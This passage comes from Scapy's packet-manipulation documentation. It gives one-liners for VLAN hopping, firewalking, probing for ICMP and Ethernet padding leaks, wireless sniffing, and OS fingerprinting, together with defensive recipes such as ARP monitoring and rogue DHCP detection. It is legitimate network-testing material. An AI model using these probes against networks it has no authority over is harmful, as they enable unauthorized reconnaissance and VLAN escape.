    Received 75 packets, got 28 answers, remaining 2 packets
       4.2.2.1:udp53      
    1  192.168.1.1     11 
    4  68.86.90.162    11 
    5  4.79.43.134     11 
    6  4.79.43.133     11 
    7  4.68.18.62      11 
    8  4.68.123.6      11 
    9  4.2.2.1            
    ...

Etherleaking 
------------

::

    >>> sr1(IP(dst="172.16.1.232")/ICMP()) 
    <IP src=172.16.1.232 proto=1 [...] |<ICMP code=0 type=0 [...]| 
    <Padding load=’0O\x02\x01\x00\x04\x06public\xa2B\x02\x02\x1e’ |>>> 

ICMP leaking
------------ 

This was a Linux 2.0 bug:: 

    >>> sr1(IP(dst="172.16.1.1", options="\x02")/ICMP()) 
    <IP src=172.16.1.1 [...] |<ICMP code=0 type=12 [...] | 
    <IPerror src=172.16.1.24 options=’\x02\x00\x00\x00’ [...] | 
    <ICMPerror code=0 type=8 id=0x0 seq=0x0 chksum=0xf7ff | 
    <Padding load=’\x00[...]\x00\x1d.\x00V\x1f\xaf\xd9\xd4;\xca’ |>>>>> 

VLAN hopping 
------------

In very specific conditions, a double 802.1q encapsulation will 
make a packet jump to another VLAN::
 
    >>> sendp(Ether()/Dot1Q(vlan=2)/Dot1Q(vlan=7)/IP(dst=target)/ICMP()) 

Wireless sniffing
-----------------

The following command will display information similar to most wireless sniffers::

>>> sniff(iface="ath0",prn=lambda x:x.sprintf("{Dot11Beacon:%Dot11.addr3%\t%Dot11Beacon.info%\t%PrismHeader.channel%\tDot11Beacon.cap%}"))

The above command will produce output similar to the one below::

    00:00:00:01:02:03 netgear      6L   ESS+privacy+PBCC
    11:22:33:44:55:66 wireless_100 6L   short-slot+ESS+privacy
    44:55:66:00:11:22 linksys      6L   short-slot+ESS+privacy
    12:34:56:78:90:12 NETGEAR      6L   short-slot+ESS+privacy+short-preamble

Recipes 
=======

Simplistic ARP Monitor
----------------------

This program uses the ``sniff()`` callback (paramter prn). The store parameter is set to 0 so that the ``sniff()`` function will not store anything (as it would do otherwise) and thus can run forever. The filter parameter is used for better performances on high load : the filter is applied inside the kernel and Scapy will only see ARP traffic.

::

    #! /usr/bin/env python
    from scapy.all import *
    
    def arp_monitor_callback(pkt):
        if ARP in pkt and pkt[ARP].op in (1,2): #who-has or is-at
            return pkt.sprintf("%ARP.hwsrc% %ARP.psrc%")
    
    sniff(prn=arp_monitor_callback, filter="arp", store=0)

Identifying rogue DHCP servers on your LAN 
-------------------------------------------

.. index::
   single: DHCP

Problem
^^^^^^^

You suspect that someone has installed an additional, unauthorized DHCP server on your LAN -- either unintentiously or maliciously. 
Thus you want to check for any active DHCP servers and identify their IP and MAC addresses.  

Solution
^^^^^^^^

Use Scapy to send a DHCP discover request and analyze the replies::

    >>> conf.checkIPaddr = False
    >>> fam,hw = get_if_raw_hwaddr(conf.iface)
    >>> dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0",dst="255.255.255.255")/UDP(sport=68,dport=67)/BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"])
    >>> ans, unans = srp(dhcp_discover, multi=True)      # Press CTRL-C after several seconds
    Begin emission:
    Finished to send 1 packets.
    .*...*..
    Received 8 packets, got 2 answers, remaining 0 packets

In this case we got 2 replies, so there were two active DHCP servers on the test network::

    >>> ans.summarize()
    Ether / IP / UDP 0.0.0.0:bootpc > 255.255.255.255:bootps / BOOTP / DHCP ==> Ether / IP / UDP 192.168.1.1:bootps > 255.255.255.255:bootpc / BOOTP / DHCP
    Ether / IP / UDP 0.0.0.0:bootpc > 255.255.255.255:bootps / BOOTP / DHCP ==> Ether / IP / UDP 192.168.1.11:bootps > 255.255.255.255:bootpc / BOOTP / DHCP
    }}}
    We are only interested in the MAC and IP addresses of the replies: 
    {{{
    >>> for p in ans: print p[1][Ether].src, p[1][IP].src
    ...
    00:de:ad:be:ef:00 192.168.1.1
    00:11:11:22:22:33 192.168.1.11

Discussion
^^^^^^^^^^

We specify ``multi=True`` to make Scapy wait for more answer packets after the first response is received.
This is also the reason why we can't use the more convenient ``dhcp_request()`` function and have to construct the DCHP packet manually: ``dhcp_request()`` uses ``srp1()`` for sending and receiving and thus would immediately return after the first answer packet. 

Moreover, Scapy normally makes sure that replies come from the same IP address the stimulus was sent to. But our DHCP packet is sent to the IP broadcast address (255.255.255.255) and any answer packet will have the IP address of the replying DHCP server as its source IP address (e.g. 192.168.1.1). Because these IP addresses don't match, we have to disable Scapy's check with ``conf.checkIPaddr = False`` before sending the stimulus.  

See also
^^^^^^^^

http://en.wikipedia.org/wiki/Rogue_DHCP

Firewalking 
-----------

TTL decrementation after a filtering operation 
only not filtered packets generate an ICMP TTL exceeded 

    >>> ans, unans = sr(IP(dst="172.16.4.27", ttl=16)/TCP(dport=(1,1024))) 
    >>> for s,r in ans: 
            if r.haslayer(ICMP) and r.payload.type == 11: 
                print s.dport 

Find subnets on a multi-NIC firewall 
only his own NIC’s IP are reachable with this TTL:: 

    >>> ans, unans = sr(IP(dst="172.16.5/24", ttl=15)/TCP()) 
    >>> for i in unans: print i.dst

TCP Timestamp Filtering
------------------------

Problem
^^^^^^^

Many firewalls include a rule to drop TCP packets that do not have TCP Timestamp option set which is a common occurrence in popular port scanners.

Solution
^^^^^^^^

To allow Scapy to reach target destination additional options must be used::

    >>> sr1(IP(dst="72.14.207.99")/TCP(dport=80,flags="S",options=[('Timestamp',(0,0))]))

Viewing packets with Wireshark
------------------------------

.. index::
   single: wireshark()

Problem
^^^^^^^

You have generated or sniffed some packets with Scapy and want to view them with `Wireshark <http://www.wireshark.org>`_, because of its advanced packet dissection abilities.

Solution
^^^^^^^^

That's what the ``wireshark()`` function is for:

    >>> packets = Ether()/IP(dst=Net("google.com/30"))/ICMP()     # first generate some packets
    >>> wireshark(packets)                                        # show them with Wireshark

Wireshark will start in the background and show your packets.
 
Discussion
^^^^^^^^^^

The ``wireshark()`` function generates a temporary pcap-file containing your packets, starts Wireshark in the background and makes it read the file on startup.   

Please remember that Wireshark works with Layer 2 packets (usually called "frames"). So we had to add an ``Ether()`` header to our ICMP packets. Passing just IP packets (layer 3) to Wireshark will give strange results.

You can tell Scapy where to find the Wireshark executable by changing the ``conf.prog.wireshark`` configuration setting.

OS Fingerprinting
-----------------

ISN
^^^

Scapy can be used to analyze ISN (Initial Sequence Number) increments to possibly discover vulnerable systems. First we will collect target responses by sending a number of SYN probes in a loop::

    >>> ans,unans=srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S"))

Once we obtain a reasonable number of responses we can start analyzing collected data with something like this:

    >>> temp = 0
    >>> for s,r in ans:
    ...    temp = r[TCP].seq - temp
    ...    print str(r[TCP].seq) + "\t+" + str(temp)
    ... 
    4278709328      +4275758673
    4279655607      +3896934
    4280642461      +4276745527
    4281648240      +4902713
    4282645099      +4277742386
    4283643696      +5901310

nmap_fp
^^^^^^^

Nmap fingerprinting (the old "1st generation" one that was done by Nmap up to v4.20) is supported in Scapy. In Scapy v2 you have to load an extension module first::

    >>> load_module("nmap")

If you have Nmap installed you can use it's active os fingerprinting database with Scapy. Make sure that version 1 of signature database is located in the path specified by::

    >>> conf.nmap_base

Then you can use the ``nmap_fp()`` function which implements same probes as in Nmap's OS Detection engine::

    >>> nmap_fp("192.168.1.1",oport=443,cport=1)
    Begin emission:
    .****..**Finished to send 8 packets.
    *................................................
    Received 58 packets, got 7 answers, remaining 1 packets
    (1.0, ['Linux 2.4.0 - 2.5.20', 'Linux 2.4.19 w/grsecurity patch', 
    'Linux 2.4.20 - 2.4.22 w/grsecurity.org patch', 'Linux 2.4.22-ck2 (x86)
    w/grsecurity.org and HZ=1000 patches', 'Linux 2.4.7 - 2.6.11'])

p0f
^^^

If you have p0f installed on your system, you can use it to guess OS name and version right from Scapy (only SYN database is used). First make sure that p0f database exists in the path specified by::

    >>> conf.p0f_base

For example to guess OS from a single captured packet:

    >>> sniff(prn=prnp0f)
    192.168.1.100:54716 - Linux 2.6 (newer, 1) (up: 24 hrs)
      -> 74.125.19.104:www (distance 0)
    <Sniffed: TCP:339 UDP:2 ICMP:0 Other:156>

